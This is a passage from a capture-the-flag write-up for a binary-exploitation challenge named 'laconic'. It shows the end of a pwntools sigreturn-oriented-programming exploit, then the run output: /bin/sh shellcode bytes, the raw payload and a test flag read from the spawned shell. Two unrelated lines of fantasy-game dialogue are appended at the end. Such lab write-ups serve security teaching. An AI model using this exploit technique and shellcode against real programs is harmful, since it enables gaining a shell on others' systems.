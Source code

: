 ```python
    srop.rax = 0

    payload = p64(0xdeadbeef)
    payload += p64(g_pop_rax)
    payload += p64(0xf)
    payload += p64(g_syscall)
    payload += bytes(srop)

    print(len(payload), payload)
    p.send(payload[:0x106])

    payload2 = scb +  p64(binary.symbols._start + 0x20)
    print(len(payload2), payload2)
    p.send(payload2)


    p.interactive()
```

Running it gives us the flag:
```shell
python3 exploit.py -b ./laconic local
    Arch:       amd64-64-little
    RELRO:      No RELRO
    Stack:      No canary found
    NX:         NX unknown - GNU_STACK missing
    PIE:        No PIE (0x42000)
    Stack:      Executable
    RWX:        Has RWX segments
    Stripped:   No
[+] Starting local process './laconic': pid 200537
[*] Loaded 3 cached gadgets for './laconic'
[+] syscall gadget: 0x43015
64 b'1\xf6VH\xbb/bin//shST_\xf7\xee\xb0;\x0f\x05\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90'
[+] RSP will land at 0x43060
280 b'\xef\xbe\xad\xde\x00\x00\x00\x00\x180\x04\x00\x00\x00\x00\x00\x0f\x00\x00\x00\x00\x00\x00\x00\x150\x04\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00 0\x04\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00H\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00`0\x04\x00\x00\x00\x00\x00\x150\x04\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x003\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00'
72 b'1\xf6VH\xbb/bin//shST_\xf7\xee\xb0;\x0f\x05\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90 0\x04\x00\x00\x00\x00\x00'
[*] Switching to interactive mode
$ cat flag.txt
HTB{f4k3_fl4g_f0r_t35t1ng}
```


[Sir Alaric]: Give me your best warcry!!
[Sir Alaric]: That was quite a shot!!